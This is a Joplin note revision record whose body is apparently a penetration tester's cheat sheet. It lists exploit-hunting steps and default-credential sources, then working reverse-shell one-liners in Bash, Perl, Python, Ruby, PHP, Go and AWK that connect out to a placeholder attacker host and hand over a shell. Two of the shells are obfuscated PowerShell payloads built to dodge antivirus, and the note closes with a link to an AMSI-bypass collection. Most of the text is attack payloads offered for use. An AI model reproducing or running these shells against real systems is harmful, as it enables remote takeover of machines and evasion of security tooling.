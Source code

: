 id: 2a3253c37c6746bf86b107929470c8a6
parent_id: 
item_type: 1
item_id: 83bdabe39eb548a7b6d0737c2851b62e
item_updated_time: 1642327759176
title_diff: "[{\"diffs\":[[1,\"1. General Notes\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":16}]"
body_diff: "[{\"diffs\":[[1,\"## Pre-requisites for runninging exploits\\\n\\\n- Check the version of the operating system.\\\n- Check the software version.\\\n- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).\\\n- If you have an exploit, is there a Metasploit Module for it?\\\n\\\n\\\n## Default Credentials\\\n\\\n- https://cirt.net/passwords\\\n- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials\\\n\\\n## Reverse Shells\\\n\\\nBash: \\\n\\\n- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1\\\n\\\nPerl:\\\n\\\n```\\\nperl -e 'use Socket;$i=\\\"IP ADDRESS\\\";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\\\"tcp\\\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\\\">&S\\\");open(STDOUT,\\\">&S\\\");open(STDERR,\\\">&S\\\");exec(\\\"/bin/sh -i\\\");};'\\\n```\\\n\\\nPython: \\\n\\\n- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"IP ADDRESS\\\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);'\\\n\\\nIPv6: \\\n\\\n- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect((\\\"dead:beef:2::125c\\\",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn(\\\"/bin/sh\\\");' \\\n\\\nRuby:\\\n\\\n- ruby -rsocket -e'f=TCPSocket.open(\\\"IP ADDRESS\\\",1234).to_i;exec sprintf(\\\"/bin/sh -i <&%d >&%d 2>&%d\\\",f,f,f)'\\\n- ruby -rsocket -e 'exit if fork;c=TCPSocket.new(\\\"[IPADDR]\\\",\\\"[PORT]\\\");while(cmd=c.gets);IO.popen(cmd,\\\"r\\\"){|io|c.print io.read}end'\\\n\\\n\\\nPHP:\\\n\\\nPentest Monkey Reverse Shell for PHP:\\\nIn Kali: \\\n\\\n/usr/share/webshells/php/php-reverse-shell.php\\\n\\\nLink: http://pentestmonkey.net/tools/web-shells/php-reverse-shell\\\n\\\n- php -r '$sock=fsockopen(\\\"IP ADDRESS\\\",1234);exec(\\\"/bin/sh -i <&3 >&3 2>&3\\\");'\\\n\\\nWindows Powershell Oneliner: \\\n\\\nNote: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you. \\\n\\\n```\\\n# Offsec-callback-v2\\\n$ezYSZf = & ((Get-Command \\\"New-ScheduledJobOption\\\").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})(\\\"Check.for.Callback.Connection\\\".Replace(\\\"Check\\\",127).Replace(\\\"For\\\",0+255-255).Replace(\\\"Callback\\\", 0+234-234).Replace(\\\"Connection\\\",0+0+0+1),(443*2-443));\\\n$VXm = $ezYSZf.GetStream();\\\n# checkin to target\\\n[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};\\\nwhile(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)\\\n{;\\\n$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);\\\n$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );\\\n# AND\\\n$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));\\\n$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);\\\n$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()\\\n};\\\nStart-Sleep -Seconds 5\\\n# checkout of target\\\n$ezYSZf.Close()\\\n```\\\n\\\nLinux Powershell Oneliner:\\\n\\\n```\\\n$ezYSZf = & ((\\\"New-ScheduledJobOption\\\")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})(\\\"Stay.Off.Ronins.Lawn\\\".Replace(\\\"Stay\\\",127).Replace(\\\"Off\\\",0+255-255).Replace(\\\"Ronins\\\", 0+1-1).Replace(\\\"Lawn\\\",0+0+0+1),(443*2-443));\\\n$VXm = $ezYSZf.GetStream();\\\n[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};\\\nwhile(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)\\\n{;\\\n$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);\\\n$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );\\\n$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));\\\n$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);\\\n$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()\\\n};\\\n$ezYSZf.Close()\\\n```\\\n\\\nGolang: \\\n\\\n- echo 'package main;import\\\"os/exec\\\";import\\\"net\\\";func main(){c,_:=net.Dial(\\\"tcp\\\",\\\"IP ADDRESS:8080\\\");cmd:=exec.Command(\\\"/bin/sh\\\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go\\\n\\\nAWK: \\\n\\\n- awk 'BEGIN {s = \\\"/inet/tcp/0/IP ADDRESS/4242\\\"; while(42) { do{ printf \\\"shell>\\\" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != \\\"exit\\\") close(s); }}' /dev/null\\\n\\\n\\\nOther Reverse Shell: \\\nhttps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md\\\n\\\n\\\n## Other Resources \\\n\\\n- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell \\\n\\\n\\\n\\\n\\\n\\\n\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":5058}]"
metadata_diff: {"new":{"id":"83bdabe39eb548a7b6d0737c2851b62e","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1617247637997,"user_updated_time":1624814374505,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-16T10:15:29.328Z
created_time: 2022-01-16T10:15:29.328Z
type_: 13